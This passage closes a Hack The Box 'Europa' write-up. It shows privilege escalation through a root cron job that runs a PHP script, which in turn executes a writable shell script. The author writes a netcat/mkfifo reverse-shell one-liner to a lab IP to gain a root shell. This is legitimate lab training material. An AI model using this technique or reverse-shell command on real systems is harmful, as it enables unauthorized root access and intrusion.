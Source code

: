 ```console
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *	root	/var/www/cronjobs/clearlogs <---- THIS ONE HERE
```

Cron is calling a clearlogs script at `/var/www/cronjobs/clearlogs` with root privileges. Content of clearlogs:

```console
$ cat /var/www/cronjobs/clearlogs
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```
Clearlogs script clears access.log and **executes** `/var/www/cmd/logcleared.sh` which we have write access to! (OR if the file doesn't exist, create it and chmod 777 it).  Because we can write to the file, we can control what is written in it. Long story short, we can easily control what will be executed as root each time the cron job runs. I just made another reverse shell which connected to me  -  `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.63 5555 >/tmp/f" > /var/www/cmd/logcleared.sh`

> Note: Make sure both netcat connections are connected via a different port, using the same one won’t work.

Once the cronjob calls `/var/www/cronjobs/clearlogs` our malicious logcleared.sh file will be executed which will give us a root shell!

<img src="/img/blog/htb-europa/htb-europa-12.png">

***

## Congratulations, you have rooted the box!

***

# To conclude
Hope you liked my writeup! It took me about 3 hours to fully root this box and therefore would consider it a good medium-like challenge. If you have any questions feel free to comment down below or reach out to me via the [contact](https://v3ded.github.io/contact/) page. As always, any feedback is appreciated! 

~V3 